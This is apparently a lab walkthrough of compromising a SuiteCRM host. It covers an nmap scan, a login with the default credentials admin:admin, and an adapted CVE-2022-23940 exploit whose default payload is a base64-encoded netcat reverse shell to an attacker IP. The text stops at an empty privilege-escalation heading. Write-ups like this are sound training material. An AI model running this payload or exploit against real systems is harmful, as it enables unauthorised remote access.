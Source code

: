 ## First enumeration with nmap

```shell
# Nmap 7.94SVN scan initiated Fri Mar  1 12:14:31 2024 as: nmap -sC -sV -T4 -oN normal.txt -p 22,80,3306,33060 -Pn 192.168.227.146
Nmap scan report for 192.168.227.146
Host is up (0.13s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 37:80:01:4a:43:86:30:c9:79:e7:fb:7f:3b:a4:1e:dd (RSA)
|   256 b6:18:a1:e1:98:fb:6c:c6:87:55:45:10:c6:d4:45:b9 (ECDSA)
|_  256 ab:8f:2d:e8:a2:04:e7:b7:65:d3:fe:5e:93:1e:03:67 (ED25519)
80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
| http-title: SuiteCRM
|_Requested resource was index.php?action=Login&module=Users
|_http-server-header: Apache/2.4.38 (Debian)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
3306/tcp  open  mysql   MySQL (unauthorized)
33060/tcp open  mysqlx?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.94SVN%I=7%D=3/1%Time=65E1B8A3%P=x86_64-pc-linux-gnu%r
SF:(GenericLines,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar  1 12:17:44 2024 -- 1 IP address (1 host up) scanned in 193.55 seconds

```

## Enumerating port 80

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/dca21234-2ff8-4a8b-a2bd-4eea17d8bb17)

a web server is running on port `80`, openning it on a browser, we an see it is running `suitecrm` service. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/3461072b-28cf-4d22-a27a-f17a9ed764fe)

trying default creds `admin:admin` and we are able to login to the administrator panel. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/36d759a8-df8a-4025-8f03-e74215e60dd0)

checking for `suitecrm` exploit, we got an exploit on searchsploit. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a8722ae5-0423-4662-a5b6-38a8bb78ebc6)

the searchsploit exploit did not work, found another exploit on github. [exploit](https://github.com/manuelz120/CVE-2022-23940). 

```python
@click.command("CVE-2022-23940",
               epilog="https://github.com/manuelz120/CVE-2022-23940")
@click.option(
    "--host",
    '-h',
    default="http://192.168.227.146",
    help="Root of SuiteCRM installation. Defaults to http://localhost")
@click.option("--username", '-u', prompt="Username> ", help="Username")
@click.option("--password",
              '-p',
              prompt="Password> ",
              help="password",
              hide_input=True)
@click.option("--payload",
              '-P',
              help="Shell command to be executed on target system",
              default='echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxOTIuMTY4LjQ1LjIxOCA0NDMgPi90bXAvZg== | base64 -d|bash')
@click.option("--is_core",
              '-d',
              default=False,
              help="SuiteCRM Core (>= 8.0.0). Defaults to False")
```
modified this path of the exploit

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c8bc90a9-2588-4dba-9282-3bea870ffd3f)

ran the exploit and got a reverse shell. 


## Privilege Escalation 

